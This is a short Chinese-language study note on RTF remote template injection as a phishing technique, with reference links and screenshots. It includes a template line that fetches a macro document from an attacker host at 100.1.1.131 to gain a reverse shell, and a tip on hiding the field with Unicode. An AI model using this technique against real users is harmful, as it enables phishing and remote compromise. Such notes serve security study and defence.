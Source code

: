```yaml
---
date: 2024-06-13
---
```


# RTF注入Office模板

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [黑客越来越多地使用RTF模板注入技术进行网络钓鱼攻击 - 哈客部落 (hake.cc)](https://www.hake.cc/page/article/611.html)
>
> [【钓鱼从入门到放弃】-RTF文档 (atsud0.me)](https://atsud0.me/2022/01/【钓鱼从入门到放弃】-RTF文档/#CVE-2017-8570)
>
> [奇安信威胁情报中心 (qianxin.com)](https://ti.qianxin.com/blog/articles/Analysis-of-the-Donot-group's-attack-campaign-using-RTF-template-injection-against-the-neighbourhood/)
>
> ---
>
> [Decodificando ficheros RTF maliciosos (ciberseguridad.blog)](https://ciberseguridad.blog/decodificando-ficheros-rtf-maliciosos/)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)
>
> [RTF Template Injection: Phishing Attachment Techniques | Proofpoint US](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)
>
> ---
>
> [RTF sample which belongs to APT-C-35 group (only 4 detections in VT)](https://x.com/IntezerLabs/status/1389210529802170370?ref=ciberseguridad.blog)
>
> ---
>
> [富文本格式 (RTF) 1.5 版规范 --- Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

RTF是富文本格式(Rich Text Format)又称多文本格式, 是由微软公司开发的跨平台文档格式

大多数的文字处理软件都能读取和保存RTF文档

RTF文档支持 `template` 参数, 可以指定目的模板路径来加载模板

![image-20240611163233113](http://cdn.ayusummer233.top/DailyNotes/202406121124421.png)

---

使用 Office Word 新建一个文档然后保存为 RTF 文档

![image-20240611111848392](http://cdn.ayusummer233.top/DailyNotes/202406121124431.png)

![image-20240611112041230](http://cdn.ayusummer233.top/DailyNotes/202406121124434.png)

使用文本编辑器打开此 RTF 文档

```
{\*\template http://100.1.1.131:8000/download/VBA_PowerShell.docm}
```

![image-20240611141220417](http://cdn.ayusummer233.top/DailyNotes/202406121124425.png)

![image-20240611151608170](http://cdn.ayusummer233.top/DailyNotes/202406121124391.png)

> 这样下载文件特别慢(

等待下载完执行即可达成反弹shell

![image-20240611151622885](http://cdn.ayusummer233.top/DailyNotes/202406121124429.png)

---

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

`*\template` 字段参数值可以为Unicode，可以更好隐藏自身

![image-20240612102526403](http://cdn.ayusummer233.top/DailyNotes/202406121124843.png)

![image-20240612112445656](http://cdn.ayusummer233.top/DailyNotes/202406121124781.png)

---

